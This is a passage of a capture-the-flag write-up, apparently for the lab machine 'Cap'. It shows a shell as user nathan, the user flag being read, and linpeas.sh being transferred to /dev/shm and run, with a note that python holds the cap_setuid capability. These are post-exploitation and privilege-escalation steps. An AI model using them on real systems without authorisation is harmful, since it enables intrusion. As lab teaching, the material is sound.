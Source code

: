 ```bash
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sat Jan 11 09:11:18 2025 from 10.10.16.15
nathan@cap:~$
```
{% endraw %}

<br />
Get the user flag.

{% raw %}
```bash
nathan@cap:~$ cat user.txt
<redacted>
nathan@cap:~$ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.245  netmask 255.255.255.0  broadcast 10.10.10.255
        inet6 fe80::250:56ff:feb0:49ad  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef::250:56ff:feb0:49ad  prefixlen 64  scopeid 0x0<global>
        ether 00:50:56:b0:49:ad  txqueuelen 1000  (Ethernet)
        RX packets 331534  bytes 28482550 (28.4 MB)
        RX errors 0  dropped 916  overruns 0  frame 0
        TX packets 326787  bytes 56235823 (56.2 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 12562  bytes 964800 (964.8 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 12562  bytes 964800 (964.8 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```
{% endraw %}

<br />
Download the <a href="https://github.com/peass-ng/PEASS-ng/releases/tag/20250110-31084f44">linpeas.sh</a> from the GitHub and transfer it to the victim machine.

<div class="row justify-content-sm-center">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/cap/linpeas.png" title="Transfer the Linpeas.sh" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<br />
Change linpeas.sh to executable and run linpeas.sh.  Notice the python has cap_setuid capability.

{% raw %}
```bash
nathan@cap:/dev/shm$ chmod +x linpeas.sh
nathan@cap:/dev/shm$ ./linpeas.sh



                            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
                    ▄▄▄▄▄▄▄             ▄▄▄▄▄▄▄▄
             ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄
         ▄▄▄▄     ▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄
         ▄    ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄          ▄▄▄▄▄▄               ▄▄▄▄▄▄ ▄
```